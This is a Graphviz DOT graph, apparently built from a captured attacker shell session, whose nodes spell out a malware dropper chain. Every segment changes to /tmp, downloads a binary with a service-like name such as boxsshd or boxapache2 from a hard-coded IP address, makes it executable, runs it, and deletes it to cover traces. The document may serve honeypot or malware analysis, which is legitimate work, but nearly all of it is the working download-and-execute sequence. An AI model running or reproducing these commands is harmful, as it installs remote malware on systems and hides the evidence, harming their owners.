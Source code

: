 digraph {
110 [label="cd /tmp "];
110 -> 110
2 [label="wget http://23.254.161.230/boxntpd "];
2 -> 4 [label=";,"];
4 [label="chmod +x boxntpd "];
4 -> 6 [label=";,"];
6 [label="./boxntpd "];
6 -> 8 [label=";,"];
8 [label="rm -rf boxntpd "];
8 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
12 [label="wget http://23.254.161.230/boxsshd "];
12 -> 14 [label=";,"];
14 [label="chmod +x boxsshd "];
14 -> 16 [label=";,"];
16 [label="./boxsshd "];
16 -> 18 [label=";,"];
18 [label="rm -rf boxsshd "];
18 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
22 [label="wget http://23.254.161.230/boxopenssh "];
22 -> 24 [label=";,"];
24 [label="chmod +x boxopenssh "];
24 -> 26 [label=";,"];
26 [label="./boxopenssh "];
26 -> 28 [label=";,"];
28 [label="rm -rf boxopenssh "];
28 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
32 [label="wget http://23.254.161.230/boxbash "];
32 -> 34 [label=";,"];
34 [label="chmod +x boxbash "];
34 -> 36 [label=";,"];
36 [label="./boxbash "];
36 -> 38 [label=";,"];
38 [label="rm -rf boxbash "];
38 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
42 [label="wget http://23.254.161.230/boxsepreme "];
42 -> 44 [label=";,"];
44 [label="chmod +x boxsepreme "];
44 -> 46 [label=";,"];
46 [label="./boxsepreme "];
46 -> 48 [label=";,"];
48 [label="rm -rf boxsepreme "];
48 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
52 [label="wget http://23.254.161.230/boxwget "];
52 -> 54 [label=";,"];
54 [label="chmod +x boxwget "];
54 -> 56 [label=";,"];
56 [label="./boxwget "];
56 -> 58 [label=";,"];
58 [label="rm -rf boxwget "];
58 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
62 [label="wget http://23.254.161.230/boxcron "];
62 -> 64 [label=";,"];
64 [label="chmod +x boxcron "];
64 -> 66 [label=";,"];
66 [label="./boxcron "];
66 -> 68 [label=";,"];
68 [label="rm -rf boxcron "];
68 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
72 [label="wget http://23.254.161.230/boxftp "];
72 -> 74 [label=";,"];
74 [label="chmod +x boxftp "];
74 -> 76 [label=";,"];
76 [label="./boxftp "];
76 -> 78 [label=";,"];
78 [label="rm -rf boxftp "];
78 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
82 [label="wget http://23.254.161.230/boxpftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x boxpftp "];
84 -> 86 [label=";,"];
86 [label="./boxpftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf boxpftp "];
88 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
92 [label="wget http://23.254.161.230/boxsh "];
92 -> 94 [label=";,"];
94 [label="chmod +x boxsh "];
94 -> 96 [label=";,"];
96 [label="./boxsh "];
96 -> 98 [label=";,"];
98 [label="rm -rf boxsh "];
98 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
102 [label="wget http://23.254.161.230/boxshit "];
102 -> 104 [label=";,"];
104 [label="chmod +x boxshit "];
104 -> 106 [label=";,"];
106 [label="./boxshit "];
106 -> 108 [label=";,"];
108 [label="rm -rf boxshit "];
108 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
112 [label="wget http://23.254.161.230/boxapache2 "];
112 -> 114 [label=";,"];
114 [label="chmod +x boxapache2 "];
114 -> 116 [label=";,"];
116 [label="./boxapache2 "];
116 -> 117 [label=";,"];
}
